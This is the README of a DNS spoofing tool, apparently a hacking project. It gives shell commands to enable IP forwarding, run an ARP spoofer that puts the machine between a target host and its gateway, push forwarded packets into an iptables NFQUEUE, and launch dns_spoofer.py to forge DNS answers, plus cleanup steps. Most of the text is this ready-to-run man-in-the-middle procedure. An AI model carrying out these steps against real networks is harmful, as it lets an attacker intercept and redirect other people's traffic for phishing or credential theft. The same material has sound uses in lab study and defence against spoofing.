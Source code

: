 # DNS Spoofer

## Requirements

* Python 2 or 3
* [NetFilterQueue](https://github.com/oremanj/python-netfilterqueue#installation)
* An iptables `NFQUEUE` (`FORWARD` chain if comes from another device, `OUTPUT` and `INPUT` chain when testing on hacking machine)
* Scapy

```shell
$ sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
```

or

```shell
$ sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0
$ sudo iptables -I INPUT -j NFQUEUE --queue-num 0
```

## Usage

### Example use

Go in the middle:

```shell
$ sudo sysctl -w net.ipv4.ip_forward=1
$ sudo python3 arp_spoofer.py -t 192.168.122.75 -s 192.168.122.1
```

Set up queue and intercept:

```shell
$ sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
$ sudo python3 dns_spoofer.py                      
```

View queue with

```shell
$ sudo cat /proc/net/netfilter/nfnetlink_queue
```

Afterwards, do not forget to disable net.ipv4.ip_forward and to remove the created iptables `NFQUEUE`:

```shell
$ sudo sysctl -w net.ipv4.ip_forward=0
$ sudo iptables --flush
```